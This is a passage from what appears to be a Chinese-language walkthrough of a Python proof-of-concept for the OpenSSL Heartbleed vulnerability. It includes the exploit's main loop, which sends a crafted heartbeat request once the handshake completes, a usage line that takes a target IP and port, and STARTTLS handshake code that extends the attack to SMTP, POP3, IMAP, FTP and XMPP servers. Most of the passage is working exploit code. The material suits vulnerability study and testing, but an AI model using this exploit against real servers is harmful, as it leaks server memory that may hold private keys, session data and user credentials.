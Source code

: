 	    while True:
	        typ, ver, pay = recvmsg(s)
	        if typ == None:
	            print 'Server closed connection without sending Server Hello.'
	            return
	        # Look for server hello done message.
	        if typ == 22 and ord(pay[0]) == 0x0E:
	            break
	
	    print 'Sending heartbeat request...'
	    sys.stdout.flush()
	    s.send(hb)
	    hit_hb(s, hb)
	
	if __name__ == '__main__':
	    main()

POC使用方式：`Python poc.py test_ip test_port`

1. 首先建立socket连接：

		s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	
	    print 'Connecting...'
	
	    s.connect((args[0], opts.port))
2. 根据连接判断协议类型，因为使用OpenSSL协议的不仅仅有https，同时还包括smtp，pop3，imap等协议

		 if opts.starttls != '':
	      print 'Sending STARTTLS Protocol Command...'
	
	    if opts.starttls == 'smtp':
	      s.recv(BUFSIZ)
	      s.send("EHLO openssl.client.net\n")
	      s.recv(BUFSIZ)
	      s.send("STARTTLS\n")
	      s.recv(BUFSIZ)
	
	    if opts.starttls == 'pop3':
	      s.recv(BUFSIZ)
	      s.send("STLS\n")
	      s.recv(BUFSIZ)
	
	    if opts.starttls == 'imap':
	      s.recv(BUFSIZ)
	      s.send("STARTTLS\n")
	      s.recv(BUFSIZ)
	
	    if opts.starttls == 'ftp':
	      s.recv(BUFSIZ)
	      s.send("AUTH TLS\n")
	      s.recv(BUFSIZ)
	
	    if opts.starttls == 'xmpp': # TODO: This needs SASL
	      s.send("<stream:stream xmlns:stream='http://etherx.jabber.org/streams' xmlns='jabber:client' to='%s' version='1.0'\n")
	      s.recv(BUFSIZ)
